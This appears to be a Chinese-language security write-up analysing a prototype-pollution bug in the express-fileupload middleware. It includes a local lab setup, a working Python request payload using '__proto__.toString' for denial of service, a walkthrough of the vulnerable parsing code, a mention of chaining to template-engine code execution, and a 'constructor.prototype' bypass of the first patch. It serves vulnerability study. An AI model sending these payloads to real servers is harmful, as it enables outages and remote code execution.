







## 前言

express-fileupload 是Express的一个用于处理文件上传的中间件

在synk的漏洞库上可以发现它目前有两个漏洞: https://snyk.io/vuln/npm:express-fileupload

参考下面这篇文章先调试下原型链污染的这个漏洞

https://blog.p6.is/Real-World-JS-1/

## 环境搭建

影响版本是express-fileupload<1.1.10 

```
npm init
npm install express --save
npm install express-fileupload@1.1.6 --save
```

index.js

```js
const express = require('express');
const fileUpload = require('express-fileupload');
const app = express();

app.use(fileUpload({ parseNested: true }));

app.get('/', (req, res) => {
    res.end('express-fileupload poc');
});

app.listen(7777)
```

```
node index.js
```

调试环境vscode.

## 调试分析

污染poc: (dos)

```python
import requests

url='http://127.0.0.1:7777/'
res = requests.post(url=url, files = {'__proto__.toString': 'express-fileupload poc'});

requests.get(url)
```

在express处理一个请求前,会先把请求传到中间件进行处理, 需要把断点下在中间件express-fileupload里面.

因为对express中间件处理请求情况不太了解,所以我直接下在了processNested.js



然后再看调用堆栈.



发现中间件有很多监听事件, 在下面代码里面`options.parseNested` 设置为true时就会调用`processNested`函数

```js
module.exports = function(data){
  if (!data || data.length < 1) return {};
  
  let d = {},
    keys = Object.keys(data);

  for (let i = 0; i < keys.length; i++) {
    let key = keys[i],
      value = data[key],
      current = d,
      keyParts = key
        .replace(new RegExp(/\[/g), '.')
        .replace(new RegExp(/\]/g), '')
        .split('.');
  
    for (let index = 0; index < keyParts.length; index++){
      let k = keyParts[index];
      if (index >= keyParts.length - 1){
        current[k] = value;
      } else {
        if (!current[k]) current[k] = !isNaN(keyParts[index + 1]) ? [] : {};
        current = current[k];
      }
    }
  }
  
  return d;
};
```

会把`__proto__` 当作object解析, `.`后面的当作key . value值可控



很明显的污染,利用req.body配合Ejs/Jade等即可RCE .

## github issue

看一下修复情况 , issue https://github.com/richardgirges/express-fileupload/issues/236



一开始只过滤了`__proto__` , 显然是修复不完全的 , `constructor.prototype.toString` 即可绕过

这个修复绕过似乎在antCTF某组件也见到了, 应该也算是开发者一个很容易忽略的问题





现在的修复方案



